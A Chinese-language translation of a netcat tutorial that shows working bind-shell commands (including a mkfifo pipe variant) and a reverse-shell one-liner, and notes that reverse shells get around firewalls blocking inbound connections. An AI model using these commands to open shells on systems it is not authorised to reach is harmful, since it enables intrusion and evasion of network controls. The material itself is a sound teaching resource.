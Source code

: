 我们已经用过远程shell-使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

Server

$nc -l 1567 -e /bin/bash -i

Client

$nc 172.31.100.7 1567

这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

Server

$mkfifo /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo

这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

从网络收到的输入写到fifo文件中

cat 命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client

$nc -n 172.31.100.7 1567

你会得到一个shell提示符在客户端
葱油拌面
葱油拌面
翻译于 5年前
7人顶
顶  翻译得不错哦！
其它翻译版本(1)
反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端

$nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端

$nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。 